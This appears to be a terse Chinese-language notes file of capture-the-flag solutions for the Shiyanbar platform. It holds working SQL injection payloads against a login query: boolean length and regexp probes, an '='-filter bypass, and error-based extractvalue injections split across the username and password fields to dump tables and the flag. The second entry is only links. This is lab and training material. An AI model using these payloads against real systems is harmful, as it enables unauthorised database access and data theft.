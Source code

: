 实验吧CTF

1.加了料的报错注入
	http://www.shiyanbar.com/ctf/2011
	bool型注入、报错注入，过滤=，information_schema注入，group_concat\length\extractvalue
	$sql="select * from users where username='$username' and password='$password'"
	model ="1' or !(length((select group_concat(table_name) from information_schema.tables where !(table_schema<>database())))<>%d) or '"
	model ="1' or !(length((select group_concat(column_name) from information_schema.columns where !(table_name<>'ffll44jj')))<>%d) or '"
	model = "1' or (select group_concat(column_name) from information_schema.columns where !(table_name<>'ffll44jj')) regexp '^%s' or '"
	#username=1' or extractvalue/*&password=*/(1,concat(0x23,database())) or '
	#username=1' or extractvalue/*&password=*/(1,concat(0x23,(select group_concat(table_name) from information_schema.tables where table_schema regexp database()))) or '
	#username=1' or extractvalue/*&password=*/(1,concat(0x23,(select group_concat(column_name) from information_schema.columns where table_name regexp 'ffll44jj'))) or '
	#username=1' or extractvalue/*&password=*/(1,concat(0x23,(select value from ffll44jj))) or '
2.认真一点！分值：35
	 http://ctf5.shiyanbar.com/web/earnest/index.php 
	 http://www.weisource.xin/?p=162
